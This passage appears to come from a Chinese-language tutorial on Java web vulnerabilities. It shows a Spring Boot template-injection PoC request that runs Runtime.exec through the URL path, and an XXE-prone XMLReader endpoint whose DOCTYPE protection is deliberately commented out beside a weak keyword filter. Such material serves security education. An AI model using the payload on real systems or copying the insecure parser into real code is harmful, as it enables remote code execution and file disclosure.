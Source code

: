 ## no return

> 根据 spring boot 定义，如果 controller 无返回值，则以 GetMapping 的路由为视图名称。  
> 当然，对于每个 http 请求来讲，其实就是将请求的 url 作为视图名称，调用模板引擎去解析。  
> 在这种情况下，我们只要可以控制请求的 controller 的参数，一样可以造成 RCE 漏洞。

源码如下

```plain
@RequestMapping("/noreturn/{content}")
    public void noReturn(String content) {
        System.out.println("ok");
    }
```

poc：`GET /home/ssti/noreturn/__$%7BT(java.lang.Runtime).getRuntime().exec(%22calc%22)%7D__::.x HTTP/1.1`  
此时依旧会爆出模板文件无法找到的错误  
[![](assets/1705886531-3a5a4246ea8f80bab7ccbea226c3752f.png)](https://cdn.nlark.com/yuque/0/2023/png/21762749/1703579396956-b86ccd66-4a26-41be-9b27-2ac66c93a1ac.png#averageHue=%23e2e2e2&clientId=u5b490a61-0d9a-4&from=paste&height=70&id=ud029cd60&originHeight=105&originWidth=1123&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=28806&status=done&style=none&taskId=u34978d8a-dee5-472d-a369-a84130a4545&title=&width=748.6666666666666)

# XXE

## xmlreader

XML 外部实体注入，当开发人员配置其 XML 解析功能允许外部实体引用时，攻击者可利用这一可引发安全问题的配置方式，实施任意文件读取、内网端口探测、命令执行、拒绝服务等攻击

```plain
public String XMLReader(@RequestBody String content, String entity) {
        try {
            if (entity !=null && entity.equals("true") && Security.checkXXE(content)) {
                return "检测到 XXE 攻击";
            }
            XMLReader xmlReader = XMLReaderFactory.createXMLReader();
            // 将功能 "http://apache.org/xml/features/disallow-doctype-decl" 设置为“真”时，不允许使用 DOCTYPE。
            // xmlReader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            xmlReader.parse(new InputSource(new StringReader(content)));
            return "XMLReader 解析成功";
        } catch (Exception e) {
            return e.toString();
        }
```

```plain
public static boolean checkXXE(String content) {
        String black = "ENTITY";
        return content.toUpperCase().contains(black);
    }
```
